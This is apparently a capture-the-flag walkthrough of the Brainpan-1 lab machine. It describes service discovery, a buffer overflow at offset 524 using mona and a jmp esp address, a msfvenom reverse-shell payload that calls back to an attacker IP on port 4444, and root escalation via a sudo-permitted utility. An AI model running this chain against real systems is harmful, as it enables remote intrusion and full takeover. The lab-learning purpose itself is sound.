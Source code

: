 # Brainpan-1
Walkthrough - Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.
 
# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.

# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory

![alt text](./brainpan.png)

Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524
![alt text](./binary.png)

Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user

![alt text](./Screenshot from 2022-05-14 20-32-17.png)
